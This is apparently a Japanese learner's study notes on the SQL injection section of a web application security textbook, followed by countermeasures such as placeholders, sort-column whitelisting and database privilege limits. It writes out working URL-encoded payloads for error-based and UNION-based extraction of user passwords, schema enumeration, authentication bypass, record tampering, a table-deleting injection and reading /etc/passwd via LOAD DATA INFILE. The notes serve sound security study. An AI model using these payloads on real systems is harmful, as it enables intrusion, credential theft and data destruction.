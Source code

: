 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.4 SQL呼び出しに伴う脆弱性
	- エラーメッセージ経由の情報漏洩
		- extractvalue関数を利用するパターンがある([参考](https://blog.tokumaru.org/2012/12/blind-sql-injection-php-exploit.html))
		- extractvalue関数は、第一引数にXML、第二引数にXPath式を受け取り、XPath式に従って文字列の切り出しをするもの
			- ```mysql
			  mysql> select extractvalue('<a><b>xss</b><b>csrf</b></a>', '/a/b');
			  +------------------------------------------------------+
			  | extractvalue('<a><b>xss</b><b>csrf</b></a>', '/a/b') |
			  +------------------------------------------------------+
			  | xss csrf                                             |
			  +------------------------------------------------------+
			  1 row in set (0.00 sec)
			  ```
		- XPATH式では`$`を使うことで変数を参照することができ、存在しない変数を参照しようとすると以下のようなエラーが表示される
			- ```mysql 
			  mysql> select extractvalue('<a><b>xss</b><b>csrf</b></a>', '$a');
			  ERROR 1105 (HY000): Unknown XPATH variable at: '$a'
			  ```
		- エラー内容をそのまま表示してしまうアプリケーションの場合、XPATH式に重要情報を埋め込んだペイロードを送信することで、重要情報を取得することが出来る
			- 例
				- 検索に使われる文字列に以下を指定する
					- `'%20and%20extractvalue(0,%20(select%20concat('$',%20id,%20':',%20pwd)%20from%20users%20limit%201));%20--%20`
					- `--`はコメントアウトを意味するが、その後にスペースがないとエラーになる([参考](https://dev.mysql.com/doc/refman/8.0/ja/comments.html))
				- 画面に出力されるエラー文
					- `Error : SQLSTATE[HY000]: General error: 1105 Unknown XPATH variable at: '$yamada:pass1'`
			- テーブル名やカラム名を知った上での攻撃になる
				- information_schema.columnsテーブルからテーブル名とカラム名の両方を取得することが出来る([参考](https://qiita.com/Naoki206/items/b4581c87f148cf5a1595))
				- 例えば、アプリケーションのユーザを管理するテーブルの名前と、そのテーブルのカラム名を知りたい時は、検索に使われる文字に以下を指定する
					- `'%20and%20extractvalue(0,%20(select%20concat('$',%20table_name,%20':',%20column_name)%20from%20information_schema.columns%20where%20table_name%20like%20'%25user%25'%20limit%201));%20--%20`
				- 画面に出力されるエラー文
					- `Error : SQLSTATE[HY000]: General error: 1105 Unknown XPATH variable at: '$USER_PRIVILEGES:GRANTEE'`
					- USER_PRIVILEGESテーブルにGRANTEEカラムがあることが分かったが、USER_PRIVILEGESテーブルはMySQLユーザの権限を管理するテーブルであり、アプリケーションのユーザを管理するテーブルではない
						- offsetを指定して地道に見つける必要がある
	- UNION SELECTを用いた情報漏洩
		- 検索クエリに使われる文字列に以下を指定する
			- `'%20union%20select%20id,%20name,%20pwd,%20addr,%20null,%20null,%20null%20from%20users;%20--%20`
			- union先のselect文のカラム数(この場合は7個)に合わせるために、nullを使っている
		- union先のselect文のカラム数や、(型付き言語の場合)各カラムの型を知った上での攻撃となる
			- これが分かれば、簡単にテーブル名やカラム名やカラムの型を知ることが出来る
				- `'%20union%20select%20table_name,%20column_name,%20data_type,%20null,%20null,%20null,%20null%20from%20information_schema.columns;%20--%20`
	- 認証回避
		- パスワードに`%27+or+1+%3D+1%3B+--+`などを指定する
	- データ改竄
		- 検索に使われる文字列に以下を指定する
			- `';%20update%20books%20set%20title%20=%20'cracked!'%20where%20id%20=%20'1001';%20--%20`
		- 実際の攻撃ではiframe要素やscript要素をWebページに埋め込んで、利用者のPCにマルウェアを感染させるように誘導する(SQLインジェクションだけでなく、XSSの脆弱性も同時にないと出来ない)
	- ファイルの読み出し
		- 検索に使われる文字列に以下を指定する
			- `';%20load%20data%20infile%20'/etc/passwd'%20into%20table%20books(title);%20--%20`
			- [load data infile文](https://dev.mysql.com/doc/refman/8.0/ja/load-data.html)はMySQLの拡張機能で、ファイルをテーブルに読み込むことが出来る
			- この例だと/etc/passwdの内容をbooksテーブルのtitleカラムに書き込む(titleカラム以外はnullになる)
			- booksテーブルのレコードをWebアプリ上で確認して、/etc/passwdの情報を盗むことが出来る
	- PHPやPerlなどの型無し言語の場合、文字列項目だけでなく数値項目に対してもSQLインジェクションが発生する可能性がある(本来数値であるべき型に文字列を代入することが出来るため)
		- `select * from users where age < $age`の`$age`に`1; delete from users`を指定するなど
	- SQLインジェクションの対策は[[Jul 14th, 2023]]を参照
	- リクエストによって、SQL文の構造が変化する場合、プレースホルダを使わずに、文字列連結を使いたくなってしまうことがある
		- 検索条件の数が変化する場合
			- リクエストボディの中に含まれるパラメータを使って検索をする場合
				- 名前だけがあったら名前だけで検索する、名前と年齢があったら名前と年齢で検索する
			- プレースホルダ(`?`)を含んだSQL文を連結していけば良い
				- `select * from users where 1 = 1`が元のSQL文
				- 名前があったら`and name = ?`を追加
				- 年齢があったら`and age <= ?`を追加
				- `1 = 1`を書くことで、追加するSQL文を全て`and`で始めることが出来るので、処理が簡単になる
		- ソート列をユーザが指定できる場合
			- ORDER BYなどではプレースホルダーを使うことが出来ないので、文字列連結をするしかない
				- プレースホルダが使えるのはリテラル部分だけ([参考](http://blog.a-way-out.net/blog/2013/12/19/sql-injection-prevention/))
			- リクエストボディ中に含まれるソート列をホワイトリストで検証する
				- 一般にブラックリストで検証するよりもホワイトリストで検証する方が安全(ブラックリストで検証すると考慮漏れする可能性が高い)
	- SQLインジェクションの保険的対策
		- 詳細なエラーメッセージの抑止
			- データベースのエラーをそのままAPIのレスポンスに含んだら駄目
		- 入力値検証
			- コメント欄など文字種制限のないパラメータもあるので、あくまでも保険的対策
		- データベースの権限設定
			- データベースのユーザに書き込み権限は与えず、読み込み権限だけ与えるなど
			- load data infile文はMySQLのFILE権限がないと出来ない
	- SQLインジェクションと関係のない話
		- MySQLには暗黙の型変換という機能があり、MySQLが出来る限り型変換をしようとするため、想定外の挙動が起きることがある([参考](https://sakaik.hateblo.jp/entry/20210426/mysql_string_number_auto_exchange_bikkuri))
		- LIKE句におけるワイルドカードのエスケープ
			- LIKE句では、`_`は任意の一文字、`%`は0文字以上の任意の文字列にマッチする
			- そのため、`_`, `%`を検索文字列に含めたい場合はエスケープする必要があり、`\_`, `\%`とすることでエスケープすることが出来る
			- エスケープのための文字を指定することも出来る(例: `where name like '%りんご100#%%' escape '#'`)